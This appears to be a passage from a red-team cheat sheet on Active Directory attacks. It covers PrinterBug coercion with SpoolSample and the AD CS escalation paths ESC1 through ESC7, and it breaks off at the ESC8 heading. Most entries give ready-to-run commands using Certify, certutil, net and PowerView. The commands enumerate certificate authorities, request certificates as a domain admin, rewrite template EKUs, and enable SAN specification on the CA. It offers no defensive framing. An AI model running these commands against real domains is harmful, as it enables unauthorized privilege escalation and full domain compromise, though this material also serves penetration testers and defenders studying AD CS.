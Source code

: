 
## PrinterBug

* https://github.com/leechristensen/SpoolSample
* `SpoolSample.exe <dc> <attacker>`


## AD CS

* Check for CA:
  * Linux
    * `rpc net group members "Cert Publishers" -U "<domain>"/"<user>"%"<pass>" -S "<dc>"`
  * Windows
    * `certutil -config - -ping`
    * `net group "Cert Publishers" /domain`
* https://github.com/GhostPack/Certify
* ESC1 - Misconfigured Certificate Templates
   * When a certificate template allows to specify a "subjectAltName", it is possible to request a certificate for another user. It can be used for privilege escalation if the EKU specifies "Client Authentication" or "ANY". If the EKU specifies "Server Authentication", you're out of luck.
   * Example: `Certify.exe request /ca:<server\ca-name> /template:<template> /altname:<domain>\<da>`
* ESC2 - Misconfigured Certificate Templates
   * When a certificate template specifies the "Any Purpose EKU", or no EKU at all, the certificate can be used for anything. ESC2 can be abused like ESC1 if the requester can specify a SAN. Otherwise it can be abused like ESC3.
   * Example: see ESC1 or ESC3.
* ESC3 - Misconfigured Enrollment Agent Templates
   * This is a kind of inception: when a certificate template specifies the "Certificate Request Agent" EKU, it is possible to request a certificate from this template first and then use this certificate to request certificates on behalf of other users.
   * Example:
      * `Certify.exe request <server\ca-name> /template:<template>`
      * `Certify.exe request <server\ca-name> /template:User /onbehalfon:<domain>\<da> /enrollcert:<cert.pfx> /enrollcertpw:<pass>`
* ESC4 - Vulnerable Certificate Template Access Control
   * If an attacker has FullControl or WriteDacl permissions over a certificate template’s AD object, this allows them to push a misconfiguration to a template that is not otherwise vulnerable, leading to ESC1 vulnerability. Always check the "Permissions" column if you have run Certify, and pay attention to, for example, "Full Control" or "WriteDacl". If Domain Users or Domain Computers appear in this list, you can change attributes yourself in the template. For example, you can set the EKU to "Client Authentication", you can disable manager approval, etc.
   * Examples can be found here: https://redteam.wiki/postexploitation/active-directory/adcs/esc4
   * Modify the EKU from ServerAuthentication to ClientAuthentication using PowerView:
     * `Set-DomainObject -SearchBase "LDAP://dc.domain.tld/CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=tld" -Identity WebServer -Set @{'pkiextendedkeyusage'='1.3.6.1.5.5.7.3.2'} -Verbose`
* ESC5 - Vulnerable PKI AD Object Access Control
   * This is a container for AD misconfigurations that happen outside of AD CS. For example, when you can take over the CA server computer object by means of an RBCD. Basically it involves compromising the CA server itself.
   * No examples here.
* ESC6 - `EDITF_ATTRIBUTESUBJECTALTNAME2`
   * If the CA is configured with the "EDITF_ATTRIBUTESUBJECTALTNAME2" flag, and the User template is enabled (Certify.exe will mention this), any user can escalate to domain admin. The idea is the same where you specify a subjectAltName.
   * Example: see ESC1.
* ESC7 - Vulnerable Certificate Authority Access Control
   * If an attacker has sufficient privileges over the Certificate Authority (ie "ManageCA"), it is possible to enable the "EDITF_ATTRIBUTESUBJECTALTNAME2" to allow SAN specification in any template.
   * Example:
      * `Certify.exe setconfig /enablesan /restart`
      * `Certify.exe request /ca:<server\ca-name> /template:<template> /altname:<domain>\<da>`
* ESC8: ESC8 - NTLM Relay to AD CS HTTP Endpoints